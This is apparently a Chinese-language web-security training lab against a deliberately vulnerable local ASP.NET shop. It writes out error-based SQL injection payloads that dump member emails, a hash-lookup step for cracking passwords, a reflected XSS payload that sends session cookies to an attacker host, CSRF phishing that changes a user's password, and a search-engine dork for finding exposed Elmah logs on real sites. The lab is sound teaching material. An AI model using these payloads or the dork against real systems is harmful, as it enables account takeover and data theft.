# 透過漏洞來找敏感資料

## 目標

>登入功能有 **明顯的 SQL Injection** 問題
>
>本章練習除了不用帳/密可登入外。可以利用**錯誤訊息**來取得帳號資料並且看看能不能破解Password Hash。
>
>另外有了Email資料，可再找找是否有可以利用的 XSS 利用它來寄送釣魚信。
>
>ASP.NET 常常會使用 Elmah 這個錯誤記錄，但常常會忘了開啟存取權限管理，所以從容易造成 Server 端敏感資料外洩

## 練習步驟

### 1.取出帳號資料

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Account/Login>**

2. 畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | ' |
    | Remember me | 不勾選 |

3. 按下 「**Login**」 Button

4. 畫面會顯示詳細的錯誤資訊

    

5. 發生錯誤會顯示完整的錯誤訊息，就可以利用它來將資料顯示出來

    ```sql
    SELECT * FROM Users Where Email = '{email}' and Password = '
    <<這裡可以搞怪>>
    '
    ```

    改成

    ```sql
    SELECT * FROM Users Where Email = '{email}' and Password = '
    ' +  CONVERT(INT,'a')--
    '
    ```

    

6. 利用錯誤取得會員 Email 資料

    ```sql
    SELECT * FROM Users Where Email = '{email}' and Password = '
    ' + CONVERT(INT, (SELECT Top 1 A2.Email From ( SELECT Top 2 A1.Email FROM Users A1 Order By A1.Email ) A2 Order By A2.Email Desc) + ']')--
    '
    ```

    

    >Todo: 請試著取出**第五筆資料**的Email

7. 跟[找出漏洞修改商品價格，低價購入](<Instructions/Session2/s1.md>)內容一樣，有一樣的規則，透過程式來取出資料比手動一個一個輸入來得快多了。開啟 Guessing\bin\Debug\Guessing.exe，**TableName** 第2個 TextBox 輸入 **2**，按下「**猜 TableName**」來猜出 **USERS**。按下「**猜 Columns**」可猜出會員的所有欄位。

    

8. 承上，切換到 **找出資料** Tab ，按下 **取出Table資料**，來取出會員資料

    

### 2.解出 Password Hash 資料

1. Copy **PASSWORDHASH** 其中一筆資料 **A8D0B6F0939CFD883251F62B265F971EF8A5AB97EEE32B91460F08B965601D93**

2. 用 Browser 開啟 **<https://hashes.com/en/decrypt/hash>**，貼入上面 PasswordHash 的值及 **Captcha Check** 值，並勾選**Show algorithm of founds**，然後按下**SUBMIT & SEARCH**

    

    

3. 2012 年 Linkedin 650萬會員資料外洩，密碼沒有加 **Salt**，所以密碼輕易被破解，詳細可以參考 [The LinkedIn Hack: Understanding Why It Was So Easy to Crack the Passwords](https://www.linkedin.com/pulse/linkedin-hack-understanding-why-so-easy-crack-tyler-cohen-wood)

### 3.寄送釣魚信件 (假設沒解出 PasswordHash)

1. 在 Search Textbox 中輸入 **關鍵字**，結果會顯示查詢的**關鍵字**，然後顯示查結果。依經驗，這顯示**關鍵字**的地方有可能會有 XSS 的問題

2. 試著輸入 XSS 的內容來測試

    2.1. 輸入 **<**, 按下Enter，會切顯示錯誤

    2.2. 輸入 **/>**, 按下Enter，顯示查詢為 **/**

    2.3. 輸入 **</>**, 按下Enter，會切顯示錯誤

    2.4. 這支功能似乎用**黑名單**(某些字串不允許)的方式來卡輸入的**關鍵字**

3. 在 Search Textbox 中輸入 **@@@**，檢視網頁原始碼，Search **@@@** 居然有**2個**地方，第2個地方是透過 jQuery 去指定 Search 的值

    

    ```JavaScript
    $('#searchTerm').val('@@@');
    ```

    >所以可以避開黑名單的字串，讓上述那段 JavaScript 程式來達到 **反射式(Reflected) XSS**

4. 驗證 XSS 可行性

    ```JavaScript
    $('#searchTerm').val('
    <<這裡可以搞怪>>
    ');
    ```

    ```JavaScript
    $('#searchTerm').val('
    ');alert(0);//
    ');
    ```

    Search TextBox 輸入 **');alert(0);//** ，按下 Enter 後，會 alert 0 ，表示 XSS 成功。它的 URL 為 **<http://localhost:44375/?searchTerm=%27%29%3Balert%280%29%3B%2F%2F>**

5. 透過 JavaScript 將 MyStore 的 Cookie 送到 Attacker.MyStore 去

    ```JavaScript
    $('#searchTerm').val('
    ');location.href='http://localhost:53441/cookies/?c='+encodeURIComponent(document.cookie);//
    ');
    ```

    Search TextBox 輸入 **');location.href='http://localhost:53441/cookies/?c='+encodeURIComponent(document.cookie);//** ，按下 Enter 後，會將 MyStore 的 Cookie 送到 Attacker.MyStore (localhost:53441) 去

    所以釣魚信的 URL 為 **<http://localhost:44375/?searchTerm=');location.href='http://localhost:53441/cookies/?c='%2BencodeURIComponent(document.cookie);//>**

6. 開啟 Allfiles\Phishing.eml ，可以讓會員領到 5,000 元購物金。

    

7. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Account/Login>**

8. 畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

9. 按下 「**Login**」 Button

10. 點選 Mail 中的 Link ，可以發現 網頁切到 <http://localhost:53441/cookies>

    

11. 開啟 Edge 在 Url 中輸入 **<http://localhost:44375>**

12. 按右鍵選「**Inspect**」後，切到**Application**，並在左方點選 **Cookies** 下的 <http://localhost:44375/>，在右方加入 **authcookie** ，值則從 Step 10 取得的值貼入。

    

13. 重新整理 Edge 網頁，可以發現，Edge 已使用 rm@gss.com.tw 的帳號登入

>Reflected XSS 修正 請參考 todo: Session-8.1 (List.cshtml)

### 4.寄送釣魚信件 (假設沒解出 PasswordHash)

1. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Account/Login>**

2. 畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

3. 按下 「**Login**」 Button

4. 再按下「**ChangePassword**」後，按右鍵「檢查」，切到「Network」，再按下功能中的「**Change password**」

    

5. Post 的資料中，只有 NewPassword 及 ConfirmPassword 2個欄位，完全沒有任何防 Cross-Site Request Forgery (CSRF) 攻擊的 Anti-Forgery Token。

6. 可以透過 Cross-Site Request Forgery (CSRF) 來改掉使用者的密碼

7. 開啟 Allfiles\Phishing-CSRF.eml ，點下 **贏得 IPhone活動頁面**後，會開新的頁面。檢查網頁內容是將資料送回 MyStore 的 ChangePassword 功能

    

8. 點選「**我想贏**」後。在 在 Url 中輸入 **<http://localhost:44375/Account/Login>** 後，可以發現， rm@gss.com.tw 的密碼已被改掉

    

>CSRF 修正 請參考 todo: Session-9.1 Cross Site Request Forgery Fix

### 5.透過 Elmah 取得敏感資料

>ASP.NET 常常會使用 Elmah 這個錯誤記錄，但常常會忘了開啟存取權限管理，所以從容易造成 Server 端敏感資料外洩。

1. 開啟 Chrome 輸入 **inurl:elmah.axd "error log for"**，可以發現目前世界還是有很多網站沒有針對錯誤訊息設定管理存取權限。而裡面可取得的資料像是 Cookie、實體路徑、資料庫資訊等等。

    

2. 開啟 Chrome 在 Url 中輸入 **<http://localhost:44375/Account/Login>**

3. 畫面輸入

    | 欄位 | 值  |
    |---|---|
    | Email | rm@gss.com.tw |
    | Password | 0002 |
    | Remember me | 不勾選 |

4. 按下 「**Login**」 Button

5. 購買一項商品

6. 在Edge，輸入 **<http://localhost:44375/elmah>**，可以發現很多訊息

    

>註: Elmah 可調整 web.config 中的 **elmah.mvc.** 相關設定，例如，

```xml
<add key="elmah.mvc.requiresAuthentication" value="true" />
<add key="elmah.mvc.allowedRoles" value="admin" />
```

[Back](./../../readme.md)
